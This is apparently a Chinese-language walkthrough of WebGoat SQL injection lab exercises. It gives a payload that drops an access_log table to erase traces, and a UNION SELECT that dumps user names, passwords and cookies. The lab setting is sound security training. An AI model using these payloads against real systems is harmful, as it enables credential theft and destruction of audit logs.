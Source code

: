 ### SQL Injection (intro) - 13

**影响可用性**
原理和上一个SQL注入一样，只不过这次是删除日志，清扫SQL注入的痕迹。

`or '; drop table access_log --`


![injection](./img_8/13.1.png)

![injection](./img_8/13.2.png)

## WebGoat - A3 Injection - SQL Injection(advanced) 1-3 

### SQL Injection (advanced) - 3

查询所有的信息
`Dave' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data; --`


